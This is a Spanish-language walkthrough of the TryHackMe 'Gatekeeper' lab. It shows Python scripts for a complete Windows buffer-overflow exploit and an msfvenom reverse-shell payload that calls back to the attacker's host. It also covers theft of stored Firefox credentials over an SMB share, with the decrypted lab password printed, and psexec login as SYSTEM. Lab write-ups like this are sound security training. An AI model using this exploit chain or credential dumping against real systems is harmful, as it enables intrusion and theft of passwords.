

En esta sala nos enfrentaremos a una maquina Windows de la cual debemos explotar un buffer overflow sencillo para obtener una shell de la maquina victima, luego dumpear credenciales almacenadas en el navegador y haciendo uso de psexec podremos ingresar como 'nt authority\system'.


- Link :[gatekeeper](https://tryhackme.com/room/gatekeeper)
- Created by [TheMayor](https://tryhackme.com/p/TheMayor)

## Enumeración

Iniciamos haciendo `ping` a la maquina victima y vemos que que es una maquina windows, esto porque tiene un ttl de 127.


Ahora realizaremos un escaneo de y enumeración de los puertos abiertos 

```php
❯ nmap -p- --open --min-rate 1000 -vvv 10.10.153.238 -Pn -n  -oG allportsScan
PORT      STATE SERVICE       REASON
135/tcp   open  msrpc         syn-ack
139/tcp   open  netbios-ssn   syn-ack
445/tcp   open  microsoft-ds  syn-ack
3389/tcp  open  ms-wbt-server syn-ack
31337/tcp open  Elite         syn-ack
49152/tcp open  unknown       syn-ack
49154/tcp open  unknown       syn-ack
49163/tcp open  unknown       syn-ack
```

Luego de enumerar los puertos abiertos, enumeraremos los servicios y las versiones que se ejecutan en cada uno de los puertos abiertos de la maquina victima

```php
❯ nmap -p135,139,445,3389,31337,49152,49154,49163 -sC -sV -Pn -vvv 10.10.153.238 -oN servicesScan

PORT      STATE SERVICE            REASON  VERSION
135/tcp   open  msrpc              syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn        syn-ack Microsoft Windows netbios-ssn
445/tcp   open  �4�߂U             syn-ack Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ssl/ms-wbt-server? syn-ack
| rdp-ntlm-info: 
|   Target_Name: GATEKEEPER
|   NetBIOS_Domain_Name: GATEKEEPER
|   NetBIOS_Computer_Name: GATEKEEPER
|   DNS_Domain_Name: gatekeeper
|   DNS_Computer_Name: gatekeeper
|   Product_Version: 6.1.7601
|_  System_Time: 2023-11-14T03:34:29+00:00
| ssl-cert: Subject: commonName=gatekeeper
| Issuer: commonName=gatekeeper
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2023-11-13T03:24:01
| Not valid after:  2024-05-14T03:24:01
| MD5:   b0e7:4339:9d6e:54ba:6ec2:e71b:8a23:8d31
| SHA-1: ac28:43ff:b68d:fb70:4c1f:e9ad:11c8:9960:b6a5:6178
| -----BEGIN CERTIFICATE-----
| MIIC2DCCAcCgAwIBAgIQc9EJQArgT5lMSv4WYlnrMDANBgkqhkiG9w0BAQUFADAV
| MRMwEQYDVQQDEwpnYXRla2VlcGVyMB4XDTIzMTExMzAzMjQwMVoXDTI0MDUxNDAz
| MjQwMVowFTETMBEGA1UEAxMKZ2F0ZWtlZXBlcjCCASIwDQYJKoZIhvcNAQEBBQAD
| ggEPADCCAQoCggEBAKPFoKd3RJP4smLufih3WWKQ6AClbwi9IZiBcyNX5trBOb1t
| yxFAhka10yQPcsrmLjIRZT4Nb1GIKd9P6EKCihu6g9FeEoGwW6G+e4EPdV5eSbeV
| 4KLpewqVOCj9iqEjkfRcuDYgNFtKK5Otsw+FUxgRQgeode+koFW1vkZSa0Z2/MZX
| B05pLz3MGfp+f3nntF5+QxgU+kdJyWSYM76SpDb48OJA0GOsUBrUqhHRwTjv3Soq
| DPKQ7HxY3dIZsBWinw7gMfVSgxTdNQGxmhZ/ZELGOV8E4FJpBA7Nx4m/VCOGyKdq
| jrEN8z/PPVgA7TKv491gwCBAvblQgAJrLwcIqW8CAwEAAaMkMCIwEwYDVR0lBAww
| CgYIKwYBBQUHAwEwCwYDVR0PBAQDAgQwMA0GCSqGSIb3DQEBBQUAA4IBAQBCmzqT
| tUfXP1EgEiQNfp2xD3rZmNMeXKhB4SMQUY09SK4WTNwvUcBlYXkiQFdkSAS/309h
| ZV/cDJ7STVqujaYkcAAYir4ALDlEo8jGyL9mtnht2D4iK1Xt06ar4Yh2D3Qkthsy
| Vy/TWLR4qOCSKH5o7KTBeA6SZ/AtetFf2EtloIWwx74VqkTRyVnAD+SfzqEGsYUN
| +kzvreJlDam2FgiXONe5bY6t0kjDQUveJ2ZdOTyZnkVnIu0oENpqAwLo3UKoqI/I
| 24cqIWx9W5BzinQBmafM2AVWvpSsa7zRs28x6V9ieaAQYrJdOZrHxqiQNl7SsZ21
| lqscrJhELM+roWkP
|_-----END CERTIFICATE-----
|_ssl-date: 2023-11-14T03:34:34+00:00; -2s from scanner time.
31337/tcp open  Elite?             syn-ack
| fingerprint-strings: 
|   FourOhFourRequest: 
|     Hello GET /nice%20ports%2C/Tri%6Eity.txt%2ebak HTTP/1.0
|     Hello
|   GenericLines: 
|     Hello 
|     Hello
|   GetRequest: 
|     Hello GET / HTTP/1.0
|     Hello
|   HTTPOptions: 
|     Hello OPTIONS / HTTP/1.0
|     Hello
|   Help: 
|     Hello HELP
|   Kerberos: 
|     Hello !!!
|   LDAPSearchReq: 
|     Hello 0
|     Hello
|   LPDString: 
|     Hello 
|     default!!!
|   RTSPRequest: 
|     Hello OPTIONS / RTSP/1.0
|     Hello
|   SIPOptions: 
|     Hello OPTIONS sip:nm SIP/2.0
|     Hello Via: SIP/2.0/TCP nm;branch=foo
|     Hello From: <sip:nm@nm>;tag=root
|     Hello To: <sip:nm2@nm2>
|     Hello Call-ID: 50000
|     Hello CSeq: 42 OPTIONS
|     Hello Max-Forwards: 70
|     Hello Content-Length: 0
|     Hello Contact: <sip:nm@nm>
|     Hello Accept: application/sdp
|     Hello
|   SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|_    Hello
49152/tcp open  msrpc              syn-ack Microsoft Windows RPC
49154/tcp open  msrpc              syn-ack Microsoft Windows RPC
49163/tcp open  msrpc              syn-ack Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port31337-TCP:V=7.94%I=7%D=11/13%Time=6552EA2E%P=x86_64-pc-linux-gnu%r(
SF:GetRequest,24,"Hello\x20GET\x20/\x20HTTP/1\.0\r!!!\nHello\x20\r!!!\n")%
SF:r(SIPOptions,142,"Hello\x20OPTIONS\x20sip:nm\x20SIP/2\.0\r!!!\nHello\x2
SF:0Via:\x20SIP/2\.0/TCP\x20nm;branch=foo\r!!!\nHello\x20From:\x20<sip:nm@
SF:nm>;tag=root\r!!!\nHello\x20To:\x20<sip:nm2@nm2>\r!!!\nHello\x20Call-ID
SF::\x2050000\r!!!\nHello\x20CSeq:\x2042\x20OPTIONS\r!!!\nHello\x20Max-For
SF:wards:\x2070\r!!!\nHello\x20Content-Length:\x200\r!!!\nHello\x20Contact
SF::\x20<sip:nm@nm>\r!!!\nHello\x20Accept:\x20application/sdp\r!!!\nHello\
SF:x20\r!!!\n")%r(GenericLines,16,"Hello\x20\r!!!\nHello\x20\r!!!\n")%r(HT
SF:TPOptions,28,"Hello\x20OPTIONS\x20/\x20HTTP/1\.0\r!!!\nHello\x20\r!!!\n
SF:")%r(RTSPRequest,28,"Hello\x20OPTIONS\x20/\x20RTSP/1\.0\r!!!\nHello\x20
SF:\r!!!\n")%r(Help,F,"Hello\x20HELP\r!!!\n")%r(SSLSessionReq,C,"Hello\x20
SF:\x16\x03!!!\n")%r(TerminalServerCookie,B,"Hello\x20\x03!!!\n")%r(TLSSes
SF:sionReq,C,"Hello\x20\x16\x03!!!\n")%r(Kerberos,A,"Hello\x20!!!\n")%r(Fo
SF:urOhFourRequest,47,"Hello\x20GET\x20/nice%20ports%2C/Tri%6Eity\.txt%2eb
SF:ak\x20HTTP/1\.0\r!!!\nHello\x20\r!!!\n")%r(LPDString,12,"Hello\x20\x01d
SF:efault!!!\n")%r(LDAPSearchReq,17,"Hello\x200\x84!!!\nHello\x20\x01!!!\n
SF:");
Service Info: Host: GATEKEEPER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: gatekeeper
|   NetBIOS computer name: GATEKEEPER\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-11-13T22:34:29-05:00
| smb2-time: 
|   date: 2023-11-14T03:34:29
|_  start_date: 2023-11-14T03:23:12
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 59m58s, deviation: 2h14m10s, median: -1s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 54509/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 59394/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 33466/udp): CLEAN (Failed to receive data)
|   Check 4 (port 32715/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required
| nbstat: NetBIOS name: GATEKEEPER, NetBIOS user: <unknown>, NetBIOS MAC: 02:b4:71:8d:e7:7b (unknown)
| Names:
|   GATEKEEPER<00>       Flags: <unique><active>
|   WORKGROUP<00>        Flags: <group><active>
|   GATEKEEPER<20>       Flags: <unique><active>
|   WORKGROUP<1e>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
| Statistics:
|   02:b4:71:8d:e7:7b:00:00:00:00:00:00:00:00:00:00:00
|   00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00
|_  00:00:00:00:00:00:00:00:00:00:00:00:00:00
```

### Enumeración de smb

Enumeraremos el servicio de `smb` en busca de recursos compartidos de los cuales podemos hacer uso para realizar la intrusión.

```php
❯ smbmap -H 10.10.153.238 -u guest
```

Enumerando podemos ver que  podemos acceder al directorio de `Users`


Haciendo uso de `smbmap` enumeraremos los archivos dentro del directorio de `Users` 

```php
❯ smbmap -H 10.10.153.238 -u guest -r 'Users'
```

Encontramos varios directorios de los cuales el mas interesante es `Share`, por lo que ingresaremos con `smbclient` para ver el contenido.


Ingresamos al a la carpeta compartida con `smbclient`

```php
❯ smbclient \\\\10.10.153.238\\Users
```

En este directorio encontraremos un archivo `gatekeeper` el cual descargaremos para poder analizarlo.



## Explotación
### Buffer overflow

Teniendo el ejecutable podremos ver que se ingresa un texto en el cual podremos realizar un desbordamiento de buffer. Para esto necesitaremos un Windows 7 en la cual instalaremos el `Immunity Debugger` y así hacer pruebas para encontrar los badcharacters para luego tener control del flujo del problema y así obtener una shell.


#### Fuzzing

Para encontrar el numero de bytes exacto que ocasiona el desbordamiento de buffer realizaremos el siguiente script  en python3

```python
#!/usr/bin/env python3
from pwn import *
import sys
import socket
import signal
def crtl_C(signal,frame ):
	print(" [!] Exting...")
	sys.exit(0)
signal.signal(signal.SIGINT, crtl_C)
ip = "192.168.98.22"
port = 31337
timeout=5
string="A" * 100
while True:
	try:
		with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
			s.settimeout(timeout)
			s.connect((ip, port))
			print("Fuzzing with {} bytes".format(len(string)))
			s.sendall((string+"\r\n").encode('utf-8'))
			s.recv(1024)
			s.close()
	except Exception as e:
		print(e)
		print("Fuzzing crashed at {} bytes".format(len(string)))
		sys.exit(0)
	string += 10 * "A"
	time.sleep(1)

```

Teniendo el anterior script ejecutaremos para encontrar el numero exacto de bytes que ocasiona el desbordamiento.


Luego de ejecutar podemos ver que el rango se encuentra entre 140 a 150 ya que con 150 bytes el programa dejo de funcionar.


### Numero de Offset

Para encontrar con exactitud el numero de offset haremos uso de `msf-pattern_create` el cual nos ayudara a identificar el numero exacto.

```php
❯ msf-pattern_create -l 150
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9
```

Realizando ciertas modificaciones al código que se tenia anteriormente podemos ejecutar nuevamente

```python
from pwn import *
import sys
import socket
import signal

def crtl_C(signal,frame ):
	print(" [!] Exting...")
	sys.exit(0)
signal.signal(signal.SIGINT, crtl_C)
ip = "192.168.98.24"

port = 31337
timeout=5
string='Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9'

while True:
	try:
		s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		s.connect((ip, port))
		print("Fuzzing with {} bytes".format(len(string)))
		s.send(bytes(string + "\r\n", "latin-1"))
		s.recv(1024)
		s.close()
	except Exception as e:
		print(e)
		sys.exit(0)
```

Ahora en el `Immunity Debugger` en la dirección de EIP tenemos `39654138` , haciendo que el programa deje de funcionar.


Teniendo los caracteres en hexadecimal de `39654138`, haremos uso de `msf-pattern_offset` para saber en que posición se encuentra y así obtener el offset

```php
❯ msf-pattern_offset -q 39654138
[*] Exact match at offset 146
```

Nos indica que los carácter entonces el numero de offset es de 146. Teniendo en cuenta esto 

```python
#/usr/bin/python3
import socket
ip = "192.168.98.24"
port = 31337
prefix = ""
offset = 146
overflow = "A" * offset
retn = ""
padding = "BBBB"
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
	s.connect((ip, port))
	print("Sending evil buffer...")
	s.send(bytes(buffer + "\r\n", "latin-1"))
	print("Done!")
except:
	print("Could not connect.")
```

Realizando algunas modificaciones de script en python e ingresando `BBBB` luego de las 146 'A' podremos observar que podemos sobre escribir el `EIP`  


Puede verse confuso ya que ingresamos `BBBB` y vemos `42424242`, pero esto no es mas que los caracteres están en hexadecimal. 

Veamos los siguiente:

```php
❯ echo '0x42'| xxd -ps -r; echo
B
```

Entonces podemos entender que ahora tenemos control de la pila y podemos indicarle a que dirección queremos que vaya el flujo del programa
### Bad characters

Los badchars son los bytes que el programa no admite. Para lo que debemos quitarlos a la hora de generar el payload, porque de lo contrario con funcionara

Su instalación es bastante sencilla, descargamos el script [mona.py](https://github.com/corelan/mona) de su repositorio oficial. Este script lo movemos a la siguiente ruta:

`C:\\Archivos de programa\\Immunity Inc\\Immunity Debugger\\PyCommands`
`C:\\Program Files\\Immunity Inc\\Immunity Debugger\\PyCommands`


Para poder trabajar en un directorio y que en este se guarden los archivos que generaremos crearemos un espacio de trabajo con el siguiente comando.

```php
!mona config -set workingfolder <ruta>\%p
```


```php
!mona config -set workingfolder C:\Users\seven\Desktop\GateKeeper
```

Ahora, vamos a generar un array que contendrá todos los caracteres  con el fin de encontrar los badchars. Ejecutamos lo siguiente:

```php
!mona bytearray
```


Esto nos genera una cadena con todos los bytes posibles, nos servirá para determinar cuáles son badchars y cuáles no.

Además, con este comando como hemos configurado el espacio de trabajo previamente, ahora se nos habrá generado una carpeta con el nombre del proceso al que estamos adjuntados:


badchars :

```php
"\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f"
"\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```

Agregamos a nuestro script `buffbadCharacter.py`

```python
#/usr/bin/python3
import socket
from struct import pack
ip = "192.168.98.24"
port = 31337

prefix = ""
offset = 146
overflow = "A" * offset
retn = "\xc3\x14\x04\x08"
padding = "\x90"*16

payload=("\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f"
"\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
	s.connect((ip, port))
	print("Sending evil buffer...")
	s.send(bytes(buffer + "\r\n", "latin-1"))
	print("Done!")
except:
	print("Could not connect.")
```

#### Detección de badchars


Ahora nos interesa el valor del ESP. Mediante este valor, mona nos automatizará la tarea de detectar los badchars.

```
ESP=016019F8
```

Haremos uso del siguiente comando:

```shell
!mona compare -f <especificamos la ruta del bytearray.bin> -a <dirección del ESP>

!mona compare -f C:\Users\seven\Desktop\GateKeeper\bytearray.bin -a 016019F8
```


De esta forma, como vemos, mona nos dice que un badchars es el `\x00` (este es un badchar muy típico, por lo que normalmente se quita de inmediato)

Con esto hecho, vamos a actualizar los archivos bytearray que tenemos, para decirles que eliminen el `\x00`:

```
!mona bytearray -cpb '"<badchars>"'
!mona bytearray -cpb "\x00"
```


Eliminamos el badchar del script `"\x00"`


### Segundo badchar
Repetimos el proceso
- Volvemos a ejecutar el programa y hacemos crashear el programa

```
!mona compare -f C:\Users\seven\Desktop\GateKeeper\bytearray.bin -a 016C19F8
```


Con esto hecho, vamos a actualizar los archivos bytearray que tenemos, para decirles que eliminen el `\x00\x0a`:

```php
!mona bytearray -cpb "<badchars>"
!mona bytearray -cpb "\x00\x0a"
```


Luego de la segunda podemos ejecutar el tercero

```php
!mona compare -f C:\Users\seven\Desktop\GateKeeper\bytearray.bin -a 00A319E4
```

Ejecutando nos vemos que no vemos otro badcharacter, por lo que seguiremos con el siguiente paso que es ahora de encontrar el opcode


### Encontrando el ESP 

  
El objetivo ahora es localizar la instrucción JMP ESP, que actúa como el punto de entrada para ejecutar nuestro código shell. Una vez que identifiquemos esta dirección, la colocaremos en el registro EIP. Después, al sobrescribir el búfer, el flujo del programa se dirigirá hacia ESP, donde hemos alineado nuestro código shell. Esto la podemos hacer de dos maneras
#### Primer caso

Teniendo los badchars y ejecutando en mona lo siguiente podremos encontrar las direcciones

```php
!mona jmp -r esp -cpb "\x00\x0a"
```


Estas direcciones son:

```php
0x080414C3
0x080416BF
```

#### Segundo caso

Para el segundo caso necesitamos ver los módulos, en mona podemos listarlos de la siguiente manera

```php
!mona modules
```


Ahora para obtener un OpCode equivalente a `jmp ESP` haremos uso de `msf-nasm_shell` y para luego buscar las direcciones que anteriormente vimos con el otro método pero haciendo uso de un OpCode

```php
❯ msf-nasm_shell
nasm > jmp ESP
```


Tenemos el OpCode el cual usaremos con el modulo `gatekeeper.exe`   que anteriormente se había listado

```php
!mona find -s "\xff\xe4" -m gatekeeper.exe
```


La dirección que nos muestra es igual al anterior método:

```php
0x080414C3
0x080416BF
```

Para verificar que la dirección que hace un salto al `jmp ESP` podemos hacer una búsqueda con la dirección obtenida


### Generación de payload con msfvenom

Luego de obtener las dirección del salto al ESP, luego debemos convertir la dirección de HEX a Little Endian y tendremos lo siguiente: `retn = "\xc3\x14\x04\x08"` y también agregaremos los NOPs `padding = "\x90"*16`

Ahora si podemos crear nuestro payload indicándole los badchars

```php
❯ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.98.22 LPORT=443 --platform windows -b "\x00\x0a" -f c
```

```python
#/usr/bin/python3

import socket
ip = "192.168.98.24"
port = 31337

prefix = ""
offset = 146
overflow = "A" * offset
retn = "\xc3\x14\x04\x08"
padding = "\x90"*16

payload=("")

postfix = ""
buffer = prefix + overflow + retn + padding + payload + postfix
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
try:
	s.connect((ip, port))
	print("Sending evil buffer...")
	s.send(bytes(buffer + "\r\n", "latin-1"))
	print("Done!")
except:
	print("Could not connect.")
```

Si ejecutamos el script y nos ponemos a la escucha debemos de obtener una shell, pero antes no olvides de correr el programa en el Windows 7.


Antes de hacer la intrusión en la maquina victima agregaremos a nuestro comando de `msfvenom` los siguiente `EXITFUNC=thread` lo que indica al shellcode utilizará la técnica de terminación de subproceso. Esto significa que después de que el shellcode haya finalizado su ejecución, el subproceso actual será terminado de manera segura y controlada. Esta técnica es útil para evitar la terminación inesperada del programa objetivo, lo que podría alertar al usuario o causar problemas de estabilidad. 

```php
❯ msfvenom -p windows/shell_reverse_tcp EXITFUNC=thread LHOST=192.168.98.22 LPORT=443 --platform windows -b "\x00\x0a" -f c
```

Ahora si podemos generar nuestro payload y luego realizar nuestra intrusion en la maquina victimasin temor a perder la shell y quedarnos sin hacer nuevamente la intrusión

#### Terminal 1

Ponemos a la escucha por el puerto que ingresamos en nuestro payload 

```php
❯ rlwrap ncat -lvp 443
Ncat: Version 7.94SVN ( https://nmap.org/ncat )
Ncat: Listening on [::]:443

```

#### Terminal 2

Ejecutamos el script que ocasiona el desbordamiento de buffer

 ```python
 ❯ python3 buff_exploit.py
Sending evil buffer...
Done!

```

Y deberíamos de obtener una shell 
## Escalada de privilegios

### Usuario : natbat


Enumerando nos encontraremos con un archivo que me llama la atención que puede ser una pista par lograr escalar privilegios


Enumerando mas encontraremos un directorio donde se almacenan datos sensibles del navegador, en este caso Firefox.

```php
C:\Users\natbat\AppData\Roaming\Mozilla\Firefox\Profiles>cd ljfn812a.default-release
```


En el siguiente post puedes encontrar mas informacion de como explotarlo [dump firefox passwords with firepwd and firefox_decrypt](https://medium.com/@s12deff/dump-firefox-passwords-with-firepwd-and-firefox-decrypt-65350fd74503)

Por lo que se necesita los archivos de key4.db y logins.json. Para poder copiarnos a nuestra maquina iniciaremos un servidor `smb`, para luego agregar como partición mas de la maquina victima 

```php
❯ impacket-smbserver smbFolder $(pwd) -smb2support
net use z \\10.9.115.196\smbFolder
```

Luego copiaremos los archivos al recurso compartido que iniciamos

```php
copy key4.db \\10.9.115.196\smbFolder\key4.db
copy key4.db \\10.9.115.196\smbFolder\logins.json
```

#### firefox_decrypt

Para el caso de necesiremos otros archivos mas que los podemos encontrar en el directorio 


Luego obtendremos las credenciales

```php
❯ python3 ../sploit/firefox_decrypt/firefox_decrypt.py .
2024-02-21 21:35:11,674 - WARNING - profile.ini not found in .
2024-02-21 21:35:11,674 - WARNING - Continuing and assuming '.' is a profile location

Website:   https://creds.com
Username: 'mayor'
Password: '8CL7O1N78MdrCIsV'
```

#### firepwd

En este caso solo necesitamos los dos archivos que descargamos primero.


Igual forma podemos obtener la credencial

```php

   OCTETSTRING b'22daf82df08cfd8aa7692b00721f870688749d57b09cb1965dde5c353589dd5d'
 }
clearText b'86a15457f119f862f8296e4f2f6b97d9b6b6e9cb7a3204760808080808080808'
decrypting login/password pairs
   https://creds.com:b'mayor',b'8CL7O1N78MdrCIsV'

```

### Usuario :  mayor

Haciendo uso de las credenciales podemos verificar con `crackmapexec` si son validas y efectivamente son validas.


Ahora para ingresar haremos uso de `impacket-psexec` proporcionando las credenciales que encontramos 

```php
python psexec.py domain/user:password@target_machine 
```


Entonces ingresaremos como `nt authority\system`

Happy Hacking :P
